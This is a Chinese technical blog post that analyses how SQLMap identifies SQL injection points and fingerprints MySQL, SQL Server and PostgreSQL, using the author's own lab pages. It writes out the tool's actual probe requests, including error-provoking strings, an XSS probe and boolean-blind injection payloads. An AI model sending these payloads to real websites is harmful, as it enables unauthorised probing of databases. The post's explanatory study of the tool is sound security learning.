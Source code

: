 本文将从SQLMap的payload来剖析，SQLMap是如何判断注入点的！

我这里搭了三个环境，分别是MySQL、SQLServer、PostgreSQL数据库，注入点分别是1.php?id=1，2.php?id=1，3.php?id=1

如何判断数据库的类型
----------

首先，SQLMap是如何判断目标网站的数据库类型的呢？

如下Sqlmap通过简单发几个包就可以简单判断目标网站采用的数据库类型了。

![](https://img-blog.csdnimg.cn/20200305203647581.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200305203740393.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200305203831165.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们加 -v3 参数看下详细的payload，并且加上 --proxy="http://127.0.0.1:8080" 参数设置代理，用burpsuite抓包。可以看到，刚开始sqlmap会发送两个数据包来探测目标网站的连通性。然后sqlmap会先送两个随机的整数payload，来判断该参数是否是动态的。确定是动态的以后，sqlmap会随机发送一些容易使目标网站报错的字符，来促使目标网站报错。

![](https://img-blog.csdnimg.cn/20200305205042539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200305205106253.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200305205138217.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

最后，MySQL数据库发送6个数据包。SQLServer数据库发送20个数据包，PostgreSQL数据库发送6个数据包。咦，为啥判断SQLServer数据库发了20个数据包，而判断MySQL数据库和PostgreSQL数据库才发送了6个包呢？

![](https://img-blog.csdnimg.cn/20200305205318102.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果目标网站没有关闭报错提示的话，SQLmap就能从报错提示中判断出数据库类型。SQLmap通过 Sqlmap\\xml\\errors.xml 文件来正则匹配网站的报错提示，从而得知目标数据库的类型。MySQL和PostgreSQL的报错中均能知道数据库类型。而SQLServer数据库的报错不能判断是啥数据库，所以SQLMap判断SQLServer数据库的时候发送了20个数据包，后续的包是继续来探测目标数据库类型的。

![](https://img-blog.csdnimg.cn/20200305205606563.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200305205819981.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如下，SQLServer数据库的报错信息中不能判断目标数据库的类型，所以需要继续发探测包判断数据库类型。关于后续发的包，我们在接下来的关闭报错中解析。

![](https://img-blog.csdnimg.cn/20200305205657706.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

现在我们关闭php的报错提示，再重新用sqlmap跑一次看看。如下图。最后判断MySQL数据库发了22个数据包。判断SQLServer数据库发了20个数据包，判断PostgreSQL数据库发了23个数据包。

![](https://img-blog.csdnimg.cn/20200305212056330.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200305212114945.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200305212133731.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

现在我们来分别对MySQL的22个数据包，SQLServer的20个数据包，PostgreSQL的23个数据包做分析。

首先，这三种数据包的前12个数据包都是一样的。即如下

前2个数据包判断目标URL的连通性。第三、四个数据包判断目标 id 参数是否是动态的。第五六个数据包通过发送畸形参数，来使服务器报错，但是由于我们关闭了服务器的报错提示，所以 sqlmap 没能判断出数据库类型。所以继续发包。第7个数据包是探测目标参数是否存在XSS漏洞。第8、9、10、11、12个数据包是探测目标参数是否存在布尔类型盲注。

```
/1.php?id=1      
/1.php?id=1      
/1.php?id=4318      
/1.php?id=5111      
/1.php?id=1,.,"),'()(      
/1.php?id=4958-4957      
/1.php?id=1'eHvJgr<'">pGTQPK      
/1.php?id=1) AND 3885=6801 AND (2452=2452      
/1.php?id=1) AND 6545=6545 AND (9487=9487      1
/1.php?id=1 AND 5954=9929      1
/1.php?id=1 AND 6545=6545      1
/1.php?id=1 AND 2829=7659
```


确定目标网站存在布尔类型盲注后，继续发包探测目标数据库的类型。探测MySQL数据库发了10个数据包，SQLServer是8个，PostgreSQL是11个。其实后续这些数据包，每个包都是用来探测是否是一种数据库。

**MySQL的数据包**

```
1 AND (SELECT CHR(80)&CHR(112)&CHR(71)&CHR(119) FROM MSysAccessObjects)=CHR(80)&CHR(112)&CHR(71)&CHR(119)     #判断是否是Access数据库      
1 AND (SELECT CHR(106)||CHR(119)||CHR(85)||CHR(80) FROM SYSIBM.SYSDUMMY1)=CHR(106)||CHR(119)||CHR(85)||CHR(80)   #判断是否是DB2数据库      
1 AND (SELECT 'XQAF' FROM RDB$DATABASE)='XQAF'           #判断是否是FireBird数据库      
1 AND (SELECT CHAR(67)||CHAR(74)||CHAR(78)||CHAR(82) FROM INFORMATION_SCHEMA.SYSTEM_USERS)=CHAR(67)||CHAR(74)||CHAR(78)||CHAR(82)      
1 AND (SELECT CHR(113)||CHR(84)||CHR(116)||CHR(87) FROM SYSMASTER:SYSDUAL)=CHR(113)||CHR(84)||CHR(116)||CHR(87)      
1 AND (SELECT 'jImR' FROM VERSIONS)='jImR'      
1 AND (SELECT CHAR(121)+CHAR(77)+CHAR(122)+CHAR(120))=CHAR(121)+CHAR(77)+CHAR(122)+CHAR(120)      
1 AND (SELECT CHAR(121)+CHAR(77)+CHAR(122)+CHAR(120))=CHAR(79)+CHAR(65)+CHAR(72)+CHAR(99)      
1 AND (SELECT 0x636e5152)=0x636e5152      1
1 AND (SELECT 0x636e5152)=0x6149544e
```


**SQLServer的数据包**

```
1 AND (SELECT CHR(109)&CHR(106)&CHR(109)&CHR(89) FROM MSysAccessObjects)=CHR(109)&CHR(106)&CHR(109)&CHR(89)   #判断是否是Access数据库      
1 AND (SELECT CHR(105)||CHR(107)||CHR(119)||CHR(100) FROM SYSIBM.SYSDUMMY1)=CHR(105)||CHR(107)||CHR(119)||CHR(100)    #判断是否是DB2数据库      
1 AND (SELECT 'bEhq' FROM RDB$DATABASE)='bEhq'   #判断是否是FireBird数据库      
1 AND (SELECT CHAR(120)||CHAR(66)||CHAR(102)||CHAR(111) FROM INFORMATION_SCHEMA.SYSTEM_USERS)=CHAR(120)||CHAR(66)||CHAR(102)||CHAR(111)      
1 AND (SELECT CHR(121)||CHR(112)||CHR(102)||CHR(100) FROM SYSMASTER:SYSDUAL)=CHR(121)||CHR(112)||CHR(102)||CHR(100)      
1 AND (SELECT 'vuKE' FROM VERSIONS)='vuKE'      
1 AND (SELECT CHAR(80)+CHAR(85)+CHAR(82)+CHAR(69))=CHAR(80)+CHAR(85)+CHAR(82)+CHAR(69)      
1 AND (SELECT CHAR(80)+CHAR(85)+CHAR(82)+CHAR(69))=CHAR(122)+CHAR(111)+CHAR(82)+CHAR(121)
```


**PostgreSQL的数据包**

```
1 AND (SELECT CHR(122)&CHR(65)&CHR(115)&CHR(68) FROM MSysAccessObjects)=CHR(122)&CHR(65)&CHR(115)&CHR(68)    #判断是否是Access数据库      
1 AND (SELECT CHR(119)||CHR(107)||CHR(68)||CHR(78) FROM SYSIBM.SYSDUMMY1)=CHR(119)||CHR(107)||CHR(68)||CHR(78)   #判断是否是DB2数据库      
1 AND (SELECT 'gOyp' FROM RDB$DATABASE)='gOyp'   #判断是否是FireBird数据库      
1 AND (SELECT CHAR(84)||CHAR(97)||CHAR(72)||CHAR(121) FROM INFORMATION_SCHEMA.SYSTEM_USERS)=CHAR(84)||CHAR(97)||CHAR(72)||CHAR(121)      
1 AND (SELECT CHR(118)||CHR(110)||CHR(68)||CHR(81) FROM SYSMASTER:SYSDUAL)=CHR(118)||CHR(110)||CHR(68)||CHR(81)      
1 AND (SELECT 'RBRO' FROM VERSIONS)='RBRO'      
1 AND (SELECT CHAR(118)+CHAR(117)+CHAR(113)+CHAR(74))=CHAR(118)+CHAR(117)+CHAR(113)+CHAR(74)      
1 AND (SELECT 0x58717773)=0x58717773      
1 AND (SELECT CHR(73)||CHR(97)||CHR(113)||CHR(106) FROM DUAL)=CHR(73)||CHR(97)||CHR(113)||CHR(106)      1
1 AND (SELECT (CHR(65)||CHR(105)||CHR(113)||CHR(97)))=(CHR(65)||CHR(105)||CHR(113)||CHR(97))      1
1 AND (SELECT (CHR(65)||CHR(105)||CHR(113)||CHR(97)))=(CHR(104)||CHR(122)||CHR(100)||CHR(102))
```


以上是通过布尔盲注来判断目标数据库是啥类型，下面来看看时间盲注的payload

![](https://img-blog.csdnimg.cn/20200307195952324.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200307200955304.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200307200907814.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

文章知识点与官方知识档案匹配，可进一步学习相关知识

[PostgreSQL技能树](https://edu.csdn.net/skill/pg/pg-2e691ed3a847424eb887b40aca750c4e)[SQL高级技巧](https://edu.csdn.net/skill/pg/pg-2e691ed3a847424eb887b40aca750c4e)[递归查询](https://edu.csdn.net/skill/pg/pg-2e691ed3a847424eb887b40aca750c4e)2336 人正在系统学习中
